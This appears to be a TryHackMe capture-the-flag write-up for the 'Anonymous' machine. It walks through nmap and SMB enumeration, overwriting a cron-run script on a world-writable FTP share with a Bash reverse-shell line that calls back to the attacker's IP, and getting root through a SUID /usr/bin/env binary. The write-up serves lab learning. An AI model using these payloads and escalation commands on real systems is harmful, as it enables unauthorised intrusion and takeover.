








# TryHackMe: Anonymous CTF Writeup

This report documents the exploitation of the **Anonymous** machine on TryHackMe. The path to root involved exploiting misconfigured FTP permissions and a SUID-bit vulnerability on a common system binary.

---

## 1. Reconnaissance

The initial phase started with a comprehensive **Nmap** scan to identify open ports, services, and versions.

```bash
sudo nmap -sS -sV -sC 10.114.149.46
```

### Scan Results:
| Port | Service | Version / Information |
| :--- | :--- | :--- |
| **21/tcp** | FTP | vsFTPd 3.0.3 (Anonymous login allowed) |
| **22/tcp** | SSH | OpenSSH 7.6p1 (Ubuntu) |
| **139/tcp** | SMB | Samba smbd 3.X - 4.X |
| **445/tcp** | SMB | Samba smbd 4.7.6-Ubuntu |



### SMB Enumeration
Given the open SMB ports, I used `smbclient` to list available shares:
```bash
smbclient -L //10.114.149.46/ -N
```
A share named `pics` was discovered. While accessible, it did not contain any credentials or direct paths to a shell.



---

## 2. FTP Enumeration & Exploitation

The Nmap scan confirmed that **Anonymous FTP login** was permitted. Upon connecting, I found a directory named `scripts` with global write permissions (`drwxrwxrwx`).

### Directory Contents:
* `clean.sh` — A bash script designed to clean up temporary files.
* `removed_files.log` — A log file tracking the script's execution.
* `to_do.txt` — A simple text note.



By monitoring `removed_files.log`, I confirmed that `clean.sh` was being executed automatically by a **Cron Job** every minute. This presented a clear opportunity for **Remote Code Execution (RCE)** by overwriting the script.

### Gaining Initial Access (Reverse Shell)
I modified a local copy of `clean.sh` with a Bash reverse shell payload:
```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.4/4445 0>&1
```


I uploaded the malicious script back to the FTP server:
```ftp
ftp> cd scripts
ftp> put clean.sh
```



Finally, I set up a Netcat listener on my attack machine:
```bash
nc -lvnp 4445
```
Within a minute, the cron job triggered the script, granting me a shell as the user **namelessone**.



---

## 3. Privilege Escalation

After obtaining the user shell, I began searching for **SUID binaries** to escalate my privileges to root:

```bash
find / -perm -u=s -type f 2>/dev/null
```



The output revealed an unusual SUID bit on the `/usr/bin/env` binary. 

### Exploiting SUID env
The `env` binary, when configured with a SUID bit, can be used to execute a shell with the privileges of the file owner (root), bypassing standard user restrictions.

I executed the following command to spawn a root shell:
```bash
/usr/bin/env /bin/bash -p
```
*The `-p` flag is crucial to prevent Bash from dropping the effective UID.*

---

## 4. Final Flags

With **root** access secured, I successfully retrieved both flags:

1. **User Flag:** `cat /home/namelessone/user.txt`
2. **Root Flag:** `cat /root/root.txt`



### Summary
The machine was compromised due to:
1. **Insecure FTP Permissions:** Allowing any user to modify a script executed by the system.
2. **Misconfigured SUID Binary:** Allowing a standard user to execute commands as root via `env`.
